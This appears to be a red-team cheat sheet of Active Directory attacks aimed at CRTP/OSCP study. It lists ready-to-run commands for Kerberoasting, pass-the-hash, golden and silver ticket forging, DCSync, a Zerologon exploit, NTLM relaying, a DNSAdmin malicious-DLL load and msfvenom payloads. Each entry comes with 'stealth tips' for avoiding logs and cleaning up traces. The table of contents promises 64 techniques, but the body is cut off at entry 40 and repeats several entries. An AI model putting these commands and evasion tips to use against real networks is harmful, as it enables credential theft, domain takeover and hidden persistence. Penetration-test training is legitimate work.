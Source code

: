# 🛡️ Active Directory Attack Techniques (Red Team Edition)

This document provides a detailed walkthrough of **25 real-world Active Directory attack techniques**, optimized for **CRTP**, **OSCP**, and stealth-focused **Red Team operations**.

---

## ✅ Features

- 🔐 Realistic AD attacks (AS-REP Roasting, Kerberoasting, DCSync, etc.)
- 🧠 Understand how each technique works under the hood
- 🛠 Tools and usage examples
- 🕵️‍♂️ Red Team **stealth recommendations** for quiet execution
- 📥 Downloadable HTML [Interactive Checklist](./CRTP_OSCP_AD_CheckList.html) available

---

## 📑 Table of Contents
- [1. AS-REP Roasting](#as-rep-roasting)
- [2. Kerberoasting](#kerberoasting)
- [3. Pass-the-Hash (PtH)](#pass-the-hash-pth)
- [4. Pass-the-Ticket (PtT)](#pass-the-ticket-%28ptt%29)
- [5. DCSync Attack](#dcsync-attack)
- [6. Unconstrained Delegation](#unconstrained-delegation)
- [7. Constrained Delegation](#constrained-delegation)
- [8. Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation-%28rbcd%29)
- [9. Silver Ticket](#silver-ticket)
- [10. Golden Ticket](#golden-ticket)
- [11. NTDS.dit Dump](#ntdsdit-dump)
- [12. GPP Passwords](#gpp-passwords)
- [13. LAPS Dumping](#laps-dumping)
- [14. AdminSDHolder Abuse](#adminsdholder-abuse)
- [15. ACL Abuse](#acl-abuse)
- [16. Printer Spooler Bug](#printer-spooler-bug)
- [17. Shadow Credentials](#shadow-credentials)
- [18. Certificate Template Escalation (ESC1)](#certificate-template-escalation-%28esc1%29)
- [19. Service Unquoted Path Abuse](#service-unquoted-path-abuse)
- [20. RDP Hijack](#rdp-hijack)
- [21. SAM & SYSTEM Hive Dump](#sam-%26-system-hive-dump)
- [22. LSA Secrets Dump](#lsa-secrets-dump)
- [23. RID Cycling](#rid-cycling)
- [24. Token Impersonation](#token-impersonation)
- [25. WMI Lateral Movement](#wmi-lateral-movement)
- [26. ADCS ESC1: Misconfigured Certificate Template](#adcs-esc1%3A-misconfigured-certificate-template)
- [27. ADCS ESC8: NTLM Relay to Web Enrollment](#adcs-esc8%3A-ntlm-relay-to-web-enrollment)
- [28. PetitPotam + ADCS (EFSRPC Coercion)](#petitpotam-%2B-adcs-%28efsrpc-coercion%29)
- [29. AdminSDHolder Persistence](#adminsdholder-persistence)
- [30. SID Filtering Bypass](#sid-filtering-bypass)
- [31. LDAP ACL Enumeration & Abuse](#ldap-acl-enumeration-%26-abuse)
- [32. Printer Bug (MS-RPRN Coercion)](#printer-bug-%28ms-rprn-coercion%29)
- [33. Unusual SPN Registration for Lateral Movement](#unusual-spn-registration-for-lateral-movement)
- [34. ESC2: Template with Weak ACL](#esc2%3A-template-with-weak-acl)
- [35. ESC3: Enrollable by Low-Priv Group](#esc3%3A-enrollable-by-low-priv-group)
- [36. ESC4: Manager Approval Misuse](#esc4%3A-manager-approval-misuse)
- [37. ESC5: Enroll as Machine Template](#esc5%3A-enroll-as-machine-template)
- [38. ESC6: Authenticated Users Can Enroll](#esc6%3A-authenticated-users-can-enroll)
- [39. ESC7: Vulnerable Unused Template](#esc7%3A-vulnerable-unused-template)
- [40. DCSync via GenericAll / Replication Rights](#dcsync-via-genericall--replication-rights)
- [41. Abusing GenericWrite on User Object](#abusing-genericwrite-on-user-object)
- [42. Overpass-the-Hash (Pass-the-Key)](#overpass-the-hash-%28pass-the-key%29)
- [43. RBCD via AddAllowedToAct (ACL Abuse)](#rbcd-via-addallowedtoact-%28acl-abuse%29)
- [44. Abusing Resource-Based Constrained Delegation (No Pre-auth)](#abusing-resource-based-constrained-delegation-%28no-pre-auth%29)
- [45. DCShadow Attack](#dcshadow-attack)
- [46. Golden Ticket Attack](#golden-ticket-attack)
- [47. Skeleton Key Attack](#skeleton-key-attack)
- [48. SIDHistory Injection](#sidhistory-injection)
- [49. AdminSDHolder Abuse](#adminsdholder-abuse)
- [50. Unconstrained Delegation Abuse](#unconstrained-delegation-abuse)
- [51. Kerberoasting with AES Keys](#kerberoasting-with-aes-keys)
- [52. Printer Bug + RBCD](#printer-bug-%2B-rbcd)
- [53. Kerberos SID Filtering Bypass](#kerberos-sid-filtering-bypass)
- [54. AS-REP Roasting (AES Variant)](#as-rep-roasting-%28aes-variant%29)
- [55. DNSAdmin to DC Compromise](#dnsadmin-to-dc-compromise)
- [56. Abusing ACL on GPO](#abusing-acl-on-gpo)
- [57. Shadow Credentials (Key Credential Link Attack)](#shadow-credentials-%28key-credential-link-attack%29)
- [58. Exchange PrivEsc via WriteDacl](#exchange-privesc-via-writedacl)
- [59. ReadGMSAPassword for Privilege Escalation](#readgmsapassword-for-privilege-escalation)
- [60. Kerberos Delegation Loop](#kerberos-delegation-loop)
- [61. Abuse Service Principal Name (SPN) via Resource-based Constrained Delegation](#abuse-service-principal-name-%28spn%29-via-resource-based-constrained-delegation)
- [62. Malicious GPO Deployment](#malicious-gpo-deployment)
- [63. Kerberos Constrained Delegation (KCD) Abuse](#kerberos-constrained-delegation-%28kcd%29-abuse)
- [64. Unquoted Service Path Privilege Escalation](#unquoted-service-path-privilege-escalation)

---



## 📋 Attack Descriptions


<a name="as-rep-roasting"></a>
<details>
  <a name="as-rep-roasting"></a>
<details>
  <summary><strong>1. AS-REP Roasting</strong></summary>

- **Purpose**: Offline cracking of user password hash  
- **Functionality**: Kerberos allows unauthenticated ticket requests for users with DONT_REQ_PREAUTH  
- **Why It's Vulnerable**: No pre-auth required, so TGT encrypted with weak password hash can be cracked  
- **How to Test**: Use `GetNPUsers.py` or `Rubeus` to extract AS-REP hashes  
```bash
# Using Impacket
GetNPUsers.py -dc-ip 192.168.1.10 domain.local/ -usersfile users.txt

# Using Rubeus
Rubeus.exe asreproast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Use known usernames only; avoid brute-forcing; low log footprint  
</details>

<a name="kerberoasting"></a>
<details>
  <a name="kerberoasting"></a>
<details>
  <summary><strong>2. Kerberoasting</strong></summary>

- **Purpose**: Offline password cracking of service accounts  
- **Functionality**: Any domain user can request service tickets for SPNs  
- **Why It's Vulnerable**: Tickets are encrypted with service account NTLM hash  
- **How to Test**: Extract SPN tickets using `GetUserSPNs.py` or `Rubeus`  
```bash
# Using Impacket
GetUserSPNs.py -request -dc-ip 192.168.1.10 domain.local/user:password

# Using Rubeus
Rubeus.exe kerberoast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Limit SPN requests; monitor for Event ID 4769  
</details>

<a name="pass-the-hash"></a>
<details>
  <a name="pass-the-hash-pth"></a>
<details>
  <summary><strong>3. Pass-the-Hash (PtH)</strong></summary>

- **Purpose**: Authenticate without knowing plaintext password  
- **Functionality**: Windows allows authentication using NTLM hash  
- **Why It's Vulnerable**: Captured hashes can be reused for lateral movement  
- **How to Test**: Use tools to authenticate with just the hash  
```bash
# SMB via wmiexec
wmiexec.py domain.local/user@192.168.1.20 -hashes <NTLM>:<NTLM>

# WinRM
evil-winrm -i 192.168.1.20 -u user -H <NTLM>
```
- **Tools**: Mimikatz, Impacket, Evil-WinRM  
- **Stealth Tips**: Use valid hashes only; avoid brute-force; monitor 4624 events  
</details>

<a name="pass-the-ticket"></a>
<details>
  <a name="pass-the-ticket-ptt"></a>
<details>
  <summary><strong>4. Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Authenticate using forged or stolen Kerberos tickets  
- **Functionality**: Windows lets users inject TGT/TGS tickets into session  
- **Why It's Vulnerable**: Kerberos tickets can be reused or forged  
- **How to Test**: Inject ticket using `Rubeus` or `Mimikatz`  
```bash
# Dump existing tickets
Rubeus.exe dump

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi

# Or with Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Reuse only valid, short-lived tickets; monitor ticket injection  
</details>

<a name="overpass-the-hash"></a>
<details>
  <a name="overpass-the-hash-pass-the-key"></a>
<details>
  <summary><strong>5. Overpass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Generate TGT using NTLM hash instead of password  
- **Functionality**: NTLM hash used to request TGT via Kerberos  
- **Why It's Vulnerable**: Weak NTLM protection enables fake TGT generation  
- **How to Test**: Use `Rubeus` to request and inject TGT  
```bash
# Request TGT using NTLM
Rubeus.exe asktgt /user:<user> /rc4:<NTLM> /domain:<domain.local>

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi
```
- **Tools**: Rubeus, hashcat  
- **Stealth Tips**: Avoid multiple TGT requests; clean up tickets post-use  
</details>

<a name="golden-ticket"></a>
<details>
  <a name="golden-ticket"></a>
<details>
  <summary><strong>6. Golden Ticket</strong></summary>

- **Purpose**: Forge a TGT for any user with unlimited lifetime  
- **Functionality**: Built using krbtgt NTLM hash  
- **Why It's Vulnerable**: Compromise of `krbtgt` account enables full domain persistence  
- **How to Test**: Use `Mimikatz` to forge and inject a TGT  
```powershell
# Mimikatz command
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:<hash> /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use only when krbtgt hash is available; monitor 4768/4769 logs  
</details>

<a name="silver-ticket"></a>
<details>
  <a name="silver-ticket"></a>
<details>
  <summary><strong>7. Silver Ticket</strong></summary>

- **Purpose**: Forge TGS for specific service  
- **Functionality**: Uses service account NTLM hash (not krbtgt)  
- **Why It's Vulnerable**: No need to contact DC when using forged TGS  
- **How to Test**: Forge and inject TGS using Mimikatz or Rubeus  
```powershell
# Forge silver ticket
kerberos::golden /user:svcuser /domain:domain.local /sid:S-1-5-... /rc4:<NTLM> /service:cifs /target:hostname /ticket:silver.kirbi
kerberos::ptt silver.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: No DC contact makes detection harder; cleanup injected TGS  
</details>

<a name="dcsync-attack"></a>
<details>
  <a name="dcsync-attack"></a>
<details>
  <summary><strong>8. DCSync Attack</strong></summary>

- **Purpose**: Extract password hashes directly from DC  
- **Functionality**: Abuse `Replicating Directory Changes` rights to mimic a DC  
- **Why It's Vulnerable**: Misconfigured ACLs grant replication rights  
- **How to Test**: Use Mimikatz `lsadump::dcsync`  
```powershell
lsadump::dcsync /domain:domain.local /user:Administrator
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Generates log 4662; use on stealthy admin accounts  
</details>

<a name="dcshadow-attack"></a>
<details>
  <a name="dcshadow-attack"></a>
<details>
  <summary><strong>9. DCShadow Attack</strong></summary>

- **Purpose**: Push malicious changes into AD (e.g., SIDHistory)  
- **Functionality**: Register rogue domain controller and replicate changes  
- **Why It's Vulnerable**: Abuse of replication permissions  
- **How to Test**: Use `mimikatz` DCShadow module  
```powershell
# In mimikatz
lsadump::dcshadow /object:CN=user,CN=Users,DC=domain,DC=local /attribute:Description /value:Hacked
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Hard to detect; monitor for rogue DC registrations  
</details>

<a name="shadow-credentials"></a>
<details>
  <a name="shadow-credentials"></a>
<details>
  <summary><strong>10. Shadow Credentials</strong></summary>

- **Purpose**: Persist access using alternate credentials (KeyCredential)  
- **Functionality**: Add fake key to user object for silent authentication  
- **Why It's Vulnerable**: Misconfigured ACLs allow adding `msDS-KeyCredentialLink`  
- **How to Test**: Use `Whisker` or `pyWhisker`  
```bash
# Using pyWhisker
python3 pywhisker.py --action add --target 'user@domain.local' --sid S-1-5-... --cert-pfx evil.pfx
```
- **Tools**: pyWhisker, Rubeus, adidnsdump  
- **Stealth Tips**: Extremely stealthy; nearly no log footprint  
</details>


<a name="unconstrained-delegation"></a>
<details>
  <a name="unconstrained-delegation"></a>
<details>
  <summary><strong>11. Unconstrained Delegation</strong></summary>

- **Purpose**: Impersonate any user who authenticates to a service  
- **Functionality**: TGTs are stored in memory and can be stolen  
- **Why It's Vulnerable**: Services with unconstrained delegation store user TGTs  
- **How to Test**: Identify systems with unconstrained delegation  
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Extract TGT from memory using Rubeus
Rubeus.exe dump
```
- **Tools**: PowerView, Rubeus, Mimikatz  
- **Stealth Tips**: Avoid crashing LSASS; use on logged-in targets  
</details>

<a name="constrained-delegation"></a>
<details>
  <a name="constrained-delegation"></a>
<details>
  <summary><strong>12. Constrained Delegation</strong></summary>

- **Purpose**: Impersonate a user to a specific service  
- **Functionality**: Service can request TGS on behalf of user  
- **Why It's Vulnerable**: Misconfigured S4U2Self/S4U2Proxy allows impersonation  
- **How to Test**: Abuse using S4U attack with Rubeus  
```powershell
# S4U attack using Rubeus
Rubeus.exe s4u /user:<user> /rc4:<NTLM> /impersonateuser:Administrator /msdsspn:cifs/dc.domain.local /domain:<domain>
```
- **Tools**: Rubeus  
- **Stealth Tips**: No DC contact if ticket reused; monitor 4769 logs  
</details>

<a name="resource-based-constrained-delegation"></a>
<details>
  <a name="resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>13. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Impersonate users to target machine or service  
- **Functionality**: Target object controls its own delegation settings  
- **Why It's Vulnerable**: Any user with write access to target can configure delegation  
- **How to Test**: Use `GenericWrite`/`GenericAll` to set msDS-AllowedToActOnBehalfOfOtherIdentity  
```powershell
# Using PowerView
Set-ADComputer -Identity TARGET -PrincipalsAllowedToDelegateToAccount ATTACKER$

# Using Rubeus and S4U
Rubeus.exe s4u ...
```
- **Tools**: PowerView, Rubeus, SharpHound  
- **Stealth Tips**: Clean up delegation entries post-exploitation  
</details>

<a name="printer-bug-coercion"></a>
<details>
  <a name="printer-bug-spoolsample"></a>
<details>
  <summary><strong>14. Printer Bug (SpoolSample)</strong></summary>

- **Purpose**: Coerce authentication from remote machine  
- **Functionality**: Exploit MS-RPRN to trigger SMB authentication  
- **Why It's Vulnerable**: Misuse of Print Spooler to trigger outbound auth  
- **How to Test**: Use `SpoolSample` or `rpcdump`  
```bash
# SpoolSample
SpoolSample.exe <victim-ip> <attacker-ip>
```
- **Tools**: SpoolSample, Inveigh  
- **Stealth Tips**: Use with relaying setup (e.g., ntlmrelayx)  
</details>

<a name="shadow-admins"></a>
<details>
  <a name="shadow-admins"></a>
<details>
  <summary><strong>15. Shadow Admins</strong></summary>

- **Purpose**: Persistence via indirect privilege escalation  
- **Functionality**: Users granted rights over admin accounts  
- **Why It's Vulnerable**: Misconfigured ACLs allow privilege chaining  
- **How to Test**: Identify users/groups with indirect control  
```powershell
# Using PowerView
Invoke-ACLScanner | ? { $_.IdentityReference -like "*admin*" }
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Shadow paths harder to detect than DA membership  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <a name="adminsdholder-abuse"></a>
<details>
  <summary><strong>16. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persistent privilege escalation  
- **Functionality**: Changes to AdminSDHolder propagate to protected accounts  
- **Why It's Vulnerable**: Write access to AdminSDHolder object gives domain rights  
- **How to Test**: Add user to AdminSDHolder's ACL  
```powershell
# Using PowerView
Add-ADPermission -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -User attacker -ExtendedRights "All"
```
- **Tools**: PowerView, ADSI Edit  
- **Stealth Tips**: Change re-applies every 60 minutes; remove afterward  
</details>

<a name="acl-based-privesc"></a>
<details>
  <a name="acl-based-privesc"></a>
<details>
  <summary><strong>17. ACL-Based PrivEsc</strong></summary>

- **Purpose**: Escalate privileges using misconfigured object permissions  
- **Functionality**: WriteDACL/GenericAll enables adding membership or privileges  
- **Why It's Vulnerable**: Poor delegation of permissions  
- **How to Test**: Identify writeable objects using BloodHound or PowerView  
```powershell
# With PowerView
Invoke-ACLScanner

# Add user to group
Add-ADGroupMember -Identity "Domain Admins" -Members attacker
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Clean audit trails, remove attacker after use  
</details>

<a name="gmsa-abuse"></a>
<details>
  <a name="gmsa-abuse"></a>
<details>
  <summary><strong>18. gMSA Abuse</strong></summary>

- **Purpose**: Abuse Group Managed Service Account to gain lateral access  
- **Functionality**: Passwords for gMSAs are retrievable by authorized systems  
- **Why It's Vulnerable**: Misconfigured read permissions allow extraction  
- **How to Test**: Use Mimikatz or custom tools to extract gMSA password  
```powershell
# Using Mimikatz
lsadump::gmsa
```
- **Tools**: Mimikatz, ADModule  
- **Stealth Tips**: Very stealthy if done from authorized machine  
</details>

<a name="ldap-signing-downgrade"></a>
<details>
  <a name="ldap-signing-downgrade"></a>
<details>
  <summary><strong>19. LDAP Signing Downgrade</strong></summary>

- **Purpose**: Downgrade secure LDAP communication for interception  
- **Functionality**: Disable signing requirements to perform MITM  
- **Why It's Vulnerable**: Default configuration allows unsigned LDAP  
- **How to Test**: Use `ntlmrelayx` with LDAP relaying  
```bash
# Relaying NTLM to LDAP
ntlmrelayx.py -t ldap://dc.domain.local --escalate-user attacker
```
- **Tools**: Impacket, Responder, ntlmrelayx  
- **Stealth Tips**: Combine with coercion attacks (e.g., PetitPotam)  
</details>

<a name="zerologon"></a>
<details>
  <a name="zerologon-cve-2020-1472"></a>
<details>
  <summary><strong>20. Zerologon (CVE-2020-1472)</strong></summary>

- **Purpose**: Full DC compromise via Netlogon flaw  
- **Functionality**: Exploits all-zero challenge to bypass auth  
- **Why It's Vulnerable**: Flawed cryptographic implementation in Netlogon  
- **How to Test**: Use `Zerologon` PoC or `impacket` script  
```bash
# Test
python3 zerologon_tester.py dc.domain.local

# Exploit
python3 zerologon_exploit.py dc.domain.local
```
- **Tools**: Impacket, CVE PoC  
- **Stealth Tips**: Very noisy; avoid unless authorized  
</details>

<a name="dnsadmin-to-dc-compromise"></a>
<details>
  <a name="dnsadmin-to-dc-compromise"></a>
<details>
  <summary><strong>21. DNSAdmin to DC Compromise</strong></summary>

- **Purpose**: Elevate privileges to SYSTEM on a Domain Controller  
- **Functionality**: DNSAdmin can load DLLs through `dnscmd`  
- **Why It's Vulnerable**: DNS server service runs as SYSTEM and loads external DLLs  
- **How to Test**: Load a malicious DLL via `dnscmd`  
```bash
dnscmd <dc> /config /serverlevelplugindll \attacker\share\malicious.dll
# Restart DNS service
sc \<dc> stop dns
sc \<dc> start dns
```
- **Tools**: dnscmd, msfvenom, smbserver.py  
- **Stealth Tips**: Clean up DLL path and logs after use  
</details>

<a name="password-spray"></a>
<details>
  <a name="password-spray"></a>
<details>
  <summary><strong>22. Password Spray</strong></summary>

- **Purpose**: Identify weak passwords across many users  
- **Functionality**: Attempts same password for multiple users to avoid lockout  
- **Why It's Vulnerable**: AD doesn’t detect horizontal brute force effectively  
- **How to Test**: Use CrackMapExec or Hydra  
```bash
crackmapexec smb <target> -u users.txt -p 'Password123'
```
- **Tools**: CrackMapExec, Hydra, Kerbrute  
- **Stealth Tips**: Respect lockout policy; long wait between tries  
</details>

<a name="llmnr-nbt-ns-poisoning"></a>
<details>
  <a name="llmnrnbt-ns-poisoning"></a>
<details>
  <summary><strong>23. LLMNR/NBT-NS Poisoning</strong></summary>

- **Purpose**: Capture NetNTLMv2 hashes from network  
- **Functionality**: Responds to broadcast name resolution requests  
- **Why It's Vulnerable**: LLMNR/NBT-NS enabled by default  
- **How to Test**: Run Responder on local subnet  
```bash
responder -I eth0
```
- **Tools**: Responder, Hashcat  
- **Stealth Tips**: Only use when legitimate traffic exists  
</details>

<a name="golden-ticket"></a>
<details>
  <a name="golden-ticket"></a>
<details>
  <summary><strong>24. Golden Ticket</strong></summary>

- **Purpose**: Create forged TGTs to impersonate any user  
- **Functionality**: TGTs can be forged using KRBTGT hash  
- **Why It's Vulnerable**: Domain compromise gives access to KRBTGT  
- **How to Test**: Extract KRBTGT hash and forge TGT  
```powershell
# Mimikatz
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /krbtgt:<hash>
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Set realistic lifetime, timestamps; avoid reuse  
</details>

<a name="silver-ticket"></a>
<details>
  <a name="silver-ticket"></a>
<details>
  <summary><strong>25. Silver Ticket</strong></summary>

- **Purpose**: Access services without contacting DC  
- **Functionality**: TGS can be forged using service account’s NTLM hash  
- **Why It's Vulnerable**: TGS validation does not require DC communication  
- **How to Test**: Use hash to forge TGS with Mimikatz or Rubeus  
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Avoid Kerberos event logs; direct access to service  
</details>

<a name="privileged-session-hijack"></a>
<details>
  <a name="privileged-session-hijack"></a>
<details>
  <summary><strong>26. Privileged Session Hijack</strong></summary>

- **Purpose**: Steal or reuse high-privilege token/session  
- **Functionality**: Session tokens in memory can be reused  
- **Why It's Vulnerable**: High-privilege sessions often left active  
- **How to Test**: Enumerate and steal token using Mimikatz  
```powershell
# Mimikatz
token::list
token::elevate
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid alerting interactive users  
</details>

<a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <summary><strong>27. Kerberos Unconstrained Delegation Ticket Theft</strong></summary>

- **Purpose**: Steal TGTs from systems with delegation enabled  
- **Functionality**: Attacker can extract TGT from memory after victim login  
- **Why It's Vulnerable**: Unconstrained delegation caches TGT in memory  
- **How to Test**: Wait for login, extract TGT  
```powershell
# Rubeus
Rubeus.exe dump
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Passive collection; avoid causing logon  
</details>

<a name="kerberos-over-pass-the-ticket"></a>
<details>
  <a name="kerberos-over-pass-the-ticket-ptt"></a>
<details>
  <summary><strong>28. Kerberos Over Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Use forged TGT/TGS to authenticate  
- **Functionality**: Inject Kerberos ticket into current session  
- **Why It's Vulnerable**: No validation of origin of ticket  
- **How to Test**: Inject valid TGT  
```powershell
# Rubeus or Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Use short lifetime; remove ticket after use  
</details>

<a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <summary><strong>29. Kerberos RC4 Ticket Renewal</strong></summary>

- **Purpose**: Extend lifetime of Kerberos tickets  
- **Functionality**: Re-request new ticket using valid one  
- **Why It's Vulnerable**: Reuse of hash for encryption allows forging  
- **How to Test**: Use RC4 key with Rubeus  
```powershell
# Rubeus
Rubeus.exe renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Limit renewals; use realistic renewal times  
</details>

<a name="delegation-chaining"></a>
<details>
  <a name="delegation-chaining"></a>
<details>
  <summary><strong>30. Delegation Chaining</strong></summary>

- **Purpose**: Pivot through multiple delegation relationships  
- **Functionality**: Abuse chained constrained delegation  
- **Why It's Vulnerable**: Hard to audit complex chains  
- **How to Test**: Enumerate delegation paths using BloodHound  
```bash
# BloodHound
Collect data → Analyze delegation edges
```
- **Tools**: BloodHound, Rubeus  
- **Stealth Tips**: Use with known chains only; avoid failed impersonation  
</details>


<a name="kerberos-resource-based-constrained-delegation-rbcd"></a>
<details>
  <a name="resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>31. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Elevate privileges by controlling another computer’s delegation rights  
- **Functionality**: Modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute  
- **Why It's Vulnerable**: Computers can be delegated rights to impersonate users  
- **How to Test**: Create a computer account, set RBCD on target, and impersonate  
```powershell
# Powermad
New-MachineAccount -MachineAccount "owned$" -Password "Password123!"
Set-ADComputer 'TARGET' -PrincipalsAllowedToDelegateToAccount 'owned$'
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Avoid AD logs; use short-lived account  
</details>

<a name="shadow-credentials"></a>
<details>
  <a name="shadow-credentials"></a>
<details>
  <summary><strong>32. Shadow Credentials</strong></summary>

- **Purpose**: Persist access by planting alternate credentials  
- **Functionality**: Abuse msDS-KeyCredentialLink attribute  
- **Why It's Vulnerable**: Weak ACLs allow editing sensitive attributes  
- **How to Test**: Inject certificate or key credential  
```powershell
# Whisker or pyWhisker
pywhisker add -u targetuser -d domain -k c:\cert.pfx
```
- **Tools**: pyWhisker, Certify  
- **Stealth Tips**: Avoid changing primary credentials; clean up afterward  
</details>

<a name="acl-based-privilege-escalation"></a>
<details>
  <a name="acl-based-privilege-escalation"></a>
<details>
  <summary><strong>33. ACL-Based Privilege Escalation</strong></summary>

- **Purpose**: Abuse weak ACLs to gain privileges  
- **Functionality**: Modify rights on sensitive objects (e.g., user, computer)  
- **Why It's Vulnerable**: Delegation often misconfigured  
- **How to Test**: Enumerate ACLs using BloodHound  
```bash
# SharpHound/BloodHound
Collect ACL data → Analyze Effective Permissions
```
- **Tools**: BloodHound, PowerView, ADACLScanner  
- **Stealth Tips**: Use inherited ACLs stealthily; revert after use  
</details>

<a name="dcsync"></a>
<details>
  <a name="dcsync-attack"></a>
<details>
  <summary><strong>34. DCSync Attack</strong></summary>

- **Purpose**: Dump password hashes for any domain user  
- **Functionality**: Mimics domain controller behavior to replicate secrets  
- **Why It's Vulnerable**: User with Replication rights can pull hashes  
- **How to Test**: Use Mimikatz with DCSync  
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:krbtgt
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Target only necessary users; avoid dumping all  
</details>

<a name="unquoted-service-path"></a>
<details>
  <a name="unquoted-service-path"></a>
<details>
  <summary><strong>35. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit unquoted service path to execute malicious binary as SYSTEM  
- **Functionality**: Service with unquoted path and spaces can execute attacker binary  
- **Why It's Vulnerable**: OS treats path as space-delimited and searches left-to-right  
- **How to Test**: Place executable in one of the interpreted paths  
```powershell
# Identify service
wmic service get name,pathname,startmode | findstr /i "Auto"
```
- **Tools**: PowerUp, sc.exe  
- **Stealth Tips**: Restart service quietly; clean up dropped binary  
</details>

<a name="alwaysinstall-elevated-misconfiguration"></a>
<details>
  <a name="alwaysinstallelevated-misconfiguration"></a>
<details>
  <summary><strong>36. AlwaysInstallElevated Misconfiguration</strong></summary>

- **Purpose**: Gain SYSTEM privileges via MSI installer  
- **Functionality**: Exploit policy that allows non-admins to run MSIs as SYSTEM  
- **Why It's Vulnerable**: Admins leave AlwaysInstallElevated registry key set  
- **How to Test**: Check registry keys and run malicious MSI  
```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
msfvenom -p windows/exec CMD=calc.exe -f msi > evil.msi
msiexec /quiet /qn /i evil.msi
```
- **Tools**: msfvenom, msiexec  
- **Stealth Tips**: Rename MSI, clean up registry traces  
</details>

<a name="service-permissions-abuse"></a>
<details>
  <a name="service-permissions-abuse"></a>
<details>
  <summary><strong>37. Service Permissions Abuse</strong></summary>

- **Purpose**: Modify service config to execute code as SYSTEM  
- **Functionality**: Misconfigured permissions allow binary path modification  
- **Why It's Vulnerable**: Services run as SYSTEM and permissions often too broad  
- **How to Test**: Use accesschk to find writable services, modify path  
```bash
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config <service> binpath= "cmd.exe /c calc.exe"
```
- **Tools**: sc.exe, accesschk.exe  
- **Stealth Tips**: Restore original path; clean artifacts  
</details>

<a name="wmi-event-subscription-persistence"></a>
<details>
  <a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>38. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain persistence through WMI triggers  
- **Functionality**: Subscribes to system events and executes payload  
- **Why It's Vulnerable**: WMI is deeply integrated and hard to audit  
- **How to Test**: Create a permanent event subscription  
```powershell
# PowerShell example
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter ...
```
- **Tools**: PowerShell, WMI Explorer  
- **Stealth Tips**: Name events benignly; delete after use  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <a name="adminsdholder-abuse"></a>
<details>
  <summary><strong>39. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persist elevated privileges via protected groups template  
- **Functionality**: AdminSDHolder replicates ACLs to high-privilege users every 60 min  
- **Why It's Vulnerable**: Modifying AdminSDHolder can give you rights over domain admins  
- **How to Test**: Add self as full control in ACLs of AdminSDHolder  
```powershell
Set-ADACL -Target "CN=AdminSDHolder,CN=System,DC=domain,DC=local" ...
```
- **Tools**: PowerView, ADSIEdit  
- **Stealth Tips**: Remove ACLs after use; high risk  
</details>

<a name="domain-controller-sync-via-rbcd"></a>
<details>
  <a name="domain-controller-sync-via-rbcd"></a>
<details>
  <summary><strong>40. Domain Controller Sync via RBCD</strong></summary>

